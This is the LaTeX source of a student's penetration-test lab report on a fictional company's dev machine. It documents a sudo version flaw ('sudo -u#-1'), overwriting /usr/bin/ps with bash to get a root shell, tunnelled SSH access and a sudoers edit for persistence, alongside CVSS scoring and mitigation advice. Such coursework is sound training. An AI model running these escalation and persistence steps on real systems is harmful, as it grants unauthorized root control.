%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test - Exercise 0f0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Technical Report}
  \subsection{Finding: \emph{Root Access Using Sudo Exploit}}

	\subsubsection*{Severity Rating}
        Risk: High \\
		\cvss(L,H,L,N,C,H,H,H, 7.8)
		
  	\subsubsection*{Vulnerability Description}
  	Using an old version of sudo allows users to potentially run commands as other users and even root despite not being authorized to. If the sudo version is outdated,
    an attacker can trick the kernel into running the commands outlined by "sudo -l" as root even if the flag specifies the user can't. For our exploit, we are allowed to run ps
    using sudo, so we can overwrite the executable with another command that is then run with root privilege. 
  	\subsubsection*{Confirmation method}
  	We can see what commands l.strauss has on devbox using the following command
\begin{verbatim}
sudo -l
\end{verbatim}
    and then overwrite this command with another command. For our particular exploit, we use the bash executable as follows
\begin{verbatim}
cp /usr/bin/bash /usr/bin/ps
sudo -u#-1 ps
\end{verbatim}
    Which then opens a bash terminal as a root and thus we now have root access. 

    \subsubsection*{Mitigation or Resolution Strategy}
    We can do a couple of things to resolve this issue. The most important thing that can be done is to make sure to constantly update the linux version to make sure
    that already patched and well known exploits are not introduced into the system. A simple linux update every week can help mitigate a lot of possible vulnerabilities. Another way
    to fix this issue on the current version of sudo is to remove the !root or {\#}0 exclusion in the sudoers file.


\section{Attack Narrative}

    \subsection{Initial Access}
    To gain access to the devbox machine, we use the same commands as have been previously used.
\begin{verbatim}
Kali:
sudo service ssh start
rdesktop -g 90% innerouter.artstailor.com
From Windows:
ssh -R 1081 kali@172.24.0.10
Kali:
proxychains ssh l.strauss@devbox.artstailor.com
\end{verbatim}
    Once we log in, if we try to use the sudo su command, we can see we no longer have sudo access.

    \subsection{Vulnerability Discovery}
    Once we gain access, we see there are two directories that are not standard Linux Directories: Bins and Src. If we enter the src directory, we see
    that it is an install for sudo version 1.8.27. This is important to note as this implies that perhaps that is the version that is running on the machine.
    Using the command "sudo -V" reveals that this is the case. After some research, we can see that this version of sudo (any version less than 1.8.28) is susceptible
    to an exploit where users can run specific sudo commands as a root user using the following structure
\begin{verbatim}
sudo -u#-1 [command]
\end{verbatim}
    What this does is allow a user to run a command as user -1 which is not a valid user and tricks the kernel into instead running the command as user 0 or root user 
    as is more commonly known. What we need to do then is see what specific command we can run as l.strauss that allows us to use the -u flag for. The way to view this is
    as using the following command
\begin{verbatim}
sudo -l
User l.strauss may run the following commands on devbox:
    (ALL, !root) /usr/bin/ps
\end{verbatim}
    This reveals we can run the ps command as other users. The executable for this command is located in /usr/bin/ps and using 
\begin{verbatim}
getfacl /usr/bin/ps
\end{verbatim}
    Reveals we in fact have write access to this executable. Thus, the conclusion was drawn that if we overwrite the ps command with some other executable such as a shell, we can then get root access
    to a shell using the sudo vulnerability. To do this, we can use the bash executable and write this over the ps executable. One easy way to do this is as follows
\begin{verbatim}
whereis bash
\end{verbatim}
    Which reveals that bash is in /usr/bin/bash, then we do
\begin{verbatim}
getfacl /usr/bin/bash
\end{verbatim}
    Which reveals we also have write access to this file, thus we can then copy this over ps as follows
\begin{verbatim}
cp /bin/bash /usr/bin/ps
\end{verbatim}
    and then to get the root bash, we put it all together as follows
   \begin{verbatim}
sudo -u#-1 ps
   \end{verbatim}
   After all this, we now have a root bash

   \subsection{Persistent Access and Key Discovery}
   If we want to maintain root access to the machine, we can now use vim to edit the sudoers file using the "visudo" command. Changing the line that
   says 
\begin{verbatim}
l.strauss ALL=(ALL, !root) /usr/bin/ps
\end{verbatim} 
    to
\begin{verbatim}
l.strauss ALL=(ALL, ALL) ALL 
\end{verbatim}
    now gives us full root access when we run the sudo command.
    Once in sudo mode, we can use the cd command to get to the root home directory and see an image called InterestingImage.png. Moving this image over to l.strauss's home
    directory, using scp to kali, and then opening it up reveals the key in picture format as follows \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0f0/InterestingImage} \\

    \subsection{MITRE ATT{\&}CK Framework TTPs}
    
	\subsubsection*{}
	\ttp(TA0004, Privilege Escalation, T1548, Abuse Elevation Control Mechanism, .004, Sudo and Sudo Caching)
    

\end{document}
